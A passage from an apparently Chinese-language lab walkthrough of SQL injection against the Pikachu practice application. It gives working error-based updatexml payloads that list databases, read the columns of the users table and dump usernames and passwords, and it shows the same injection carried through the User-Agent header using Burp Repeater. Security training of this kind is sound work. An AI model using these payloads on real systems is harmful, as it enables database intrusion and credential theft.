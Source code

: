 ```
56+and+updatexml(1,concat(0x7e,(select+group_concat(schema_name)+from+information_schema.schemata),0x7e),2)
```

![56](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144447.png)



```
56+and+updatexml(1,concat(0x7e,(select+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()+and+table_name='users'),0x7e),2)
```

![57](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144449.png)



查询表下所有数据

```
56+or+updatexml(1,concat(0x7e,(select+group_concat(id,username,password,level)+from+users),0x7e),2)
或拖过limit读取
56+or+updatexml(1,concat(0x7e,(select+password+from+users+limit+0,1)),1)
```

![58](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144450.png)



### http header注入

输入admin/123456，点击login登录

![59](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144452.png)





 打开burp的拦截，刷新该页面，将拦截到的报文发送至repeater。

修改user agent或Accept参数注入



#### User-Agent:处注入

查询数据库名

```
' or updatexml(1,concat(0x7e,(select database())),1)or'
```

![60](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144457.png)





查询所有数据库

```
 ' or updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),2)or '
```
